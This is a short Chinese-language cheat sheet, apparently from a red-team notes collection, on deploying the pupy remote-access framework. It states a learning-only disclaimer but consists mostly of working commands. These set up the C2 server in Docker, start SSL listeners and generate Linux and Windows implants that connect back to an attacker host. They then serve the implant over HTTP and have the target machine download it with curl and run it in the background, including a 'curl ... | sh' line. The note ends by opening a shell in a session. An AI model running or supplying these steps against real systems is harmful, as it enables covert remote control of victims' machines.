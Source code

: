 # pupy

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/n1nj4sec/pupy

---

## 安装

**Docker 安装**
```bash
curl -fsSL https://get.docker.com | bash -s docker --mirror Aliyun
docker pull alxchk/pupy:unstable

systemctl stop systemd-resolved

# 端口映射
docker run -d --name pupy-server -p 2022:22 -p 53:53 -p 80:80 -p 443:443 -v /tmp/projects:/projects alxchk/pupy:unstable

# ssh-keygen 免交互
# yes | ssh-keygen -t rsa -N "" -C "test@email.com" -f ~/.ssh/id_rsa_pupy
# yes | ssh-keygen -t rsa -N "" -f ~/.ssh/id_rsa_pupy
yes | ssh-keygen -t rsa -N "" -C "test@email.com" -f ~/.ssh/id_rsa_pupy
cp ~/.ssh/id_rsa_pupy.pub /tmp/projects/keys/authorized_keys

# ssh首次交互免输入yes
ssh -i ~/.ssh/id_rsa_pupy -p 2022 -o stricthostkeychecking=no pupy@127.0.0.1
```

---

## 使用

**进入 pupy 后**
```bash
# 监听器
listen -r ssl
listen -a ssl 53

# 生成 shell
gen -f client -O linux -A x64 connect --host x.x.x.x:53 -t ssl
gen -f client -O windows -A x64 connect --host x.x.x.x:53 -t ssl
```

```bash
# 进容器起py服务器
docker exec -it pupy-server /bin/sh
cd /projects/default/output/
python -m SimpleHTTPServer 8989
```

**目标机器上线**
```bash
curl http://x.x.x.x:8989/pupyx64.0E8pp4.lin -o test
chmod +x test
nohup ./test &

# curl http://x.x.x.x:8989/test|sh
```

**pupy 上查看**
```bash
# 成功连接后
sessions

sessions -i [id]
shell
```
